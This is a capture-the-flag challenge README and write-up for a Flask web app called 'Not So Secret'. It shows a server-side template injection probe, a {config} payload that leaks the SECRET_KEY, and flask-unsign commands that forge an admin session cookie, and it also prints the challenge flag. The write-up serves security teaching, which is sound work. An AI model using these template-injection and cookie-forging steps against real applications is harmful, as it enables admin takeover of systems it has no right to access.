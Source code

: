 # Not So Secret

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/blob/main/Web/Not%20So%20Secret/INSTALL.md)

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get into the admin user, I will give you a flag. 

Someone hacked my site after I read their message, so I am no longer reading DMs send to me! >:( On top of that, I am imposing an even harsher special character filter because I don't actually know how to patch my code.

p.s. To save you some time, don't try getting a reverse shell

### Difficulty
Medium

### Flag
`PCTF{y0u_can_s1gn_my_c00k13s_anyt1m3_;)}`

### Hints
1. Template injection
2. Sign your own cookie

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This web app is vulnerable to template injection. After signing up, send a test SSTI message `{{7*7}}`:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/49.png" width=40%  height=40%></p>

We see that 7*7 was evaluated to 49, so we have successful template injection. There is a filter in place blocking these characters: `._[]|\`. This is so you can't attempt to execute python code to run system commands 'cause I want it solved another way.

In flask, we can have it give us the config file with this `{config}`, so let's try that:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_config.png" width=40%  height=40%></p>

We see a `SECRET_KEY` set to `ifXEaNLEiDLIuquyRKzfeJJWzntoIm`. If we have the app's secret key, we can sign the session cookies used by the app. We'll use a tool called `flask-unsign` to do this for us (install w/ `pip3 install flask-unsign`).

Let's first decode our user's session cookie so we know the format. I use the Firefox extension `cookie editor` to do all of this:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/cookie_editor.png" width=40%  height=40%></p>

```console
$ flask-unsign --decode --cookie '.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsv3B3oyLwQ.YieZSw.Fox-K5Pj1Zq30KG5ZngqBFzRce8'

{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '2'}
```
We see that the `_user_id` key has a value of `2`. We can assume that the admin user's `_user_id` must be `1`. Let's sign our new key:

```console
$ flask-unsign --sign --cookie "{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '1'}" --secret 'ifXEaNLEiDLIuquyRKzfeJJWzntoIm'

.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsr3B3ovLwM.YieaAA.nYGnkeNzCLq7xT-gp_KWw8lrFrs
```

The final step is to change our session cookie value to the one we just got, and reload the webpage. We should be admin and have access to the admin panel:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_flag.png" width=60%  height=60%></p>
